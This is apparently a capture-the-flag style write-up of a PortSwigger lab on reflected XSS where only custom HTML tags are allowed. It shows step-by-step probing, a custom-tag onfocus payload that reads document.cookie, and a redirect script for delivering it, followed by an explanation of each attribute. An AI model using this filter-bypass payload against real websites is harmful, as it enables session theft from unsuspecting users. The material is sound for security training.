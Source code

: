 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

> Lab Objective: perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When Searching for the input in page source code, these characters `'"><` are displayed & interpreted successfully.
  ![1st Screenshot](./Photos/1.png)

- When trying to inject `test<script>alert(document.cookie)</script>`, You'll see that `script` tag isn't allowed.
  ![2nd Screenshot](./Photos/2.png)
  ![3rd Screenshot](./Photos/3.png)

- Therefore, use Burp Suite Intruder (or run a python script) to find out which tags are allowed to use.

- I've noticed that only custom tags are allowed (e.g., `<custom-tag>`)
  ![4th Screenshot](./Photos/4.png)

- When injecting `<custom-tag onmouseover=alert(1)>`, `alert` function is executed based on JS event handler, But we need XSS to be automated.
  ![5th Screenshot](./Photos/5.png)

- Therefore, craft something like this: `<custom-tag onfocus=alert(document.cookie) id=x tabindex=0>`, then adding `#x` allows for focusing on `custom-tag` therefore executing `alert` function.
  ![6th Screenshot](./Photos/6.png)

- Then add this JS coe snippet to exploit server, and Deliver exploit to server.

```html
<script>
  location =
    "https://0a8e00cf046e41348172845c007a0002.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3Dalert(document.cookie)+id%3Dx+tabindex%3D0%3E#x";
</script>
```

- Finally, the lab is solved.
  ![7th Screenshot](./Photos/7.png)

---

## Code Explanation

- Code Snippet:

```html
<custom-tag onfocus="alert(document.cookie)" id="x" tabindex="0"> </custom-tag>
```

- Explanation:
  - `<custom-tag>`:
    - This is a non-standard HTML tag. Browsers will treat it as a custom element (or unknown tag), but it will still be rendered in the DOM.
    - It's used in XSS payloads to bypass filters that block standard html tags.
  - `onfocus="alert(document.cookie)"`:
    - When triggering that event `alert(document.cookie)` will get executed.
    - Which I'm trying to execute it automatically.
  - `id=x`:
    - Assigns ID to the custom tag in order to allow the element to be referenced afterwards.
  - `tabindex="0"`:
    - It makes the element focusable, meaning it can receive focus via:
      - keyboard navigation.
      - adding `#x` at the end of the url, which will reference the element based on it's `id` attribute.
    - The `=0` part indicates that the element is placed in tab index order, and it's the first element to be focused on.
  - `#x` at the end of the URL:
    - The #x in the URL is a **fragment identifier** that instructs the browser to navigate to and focus on the element with the id="x" in the page.

---
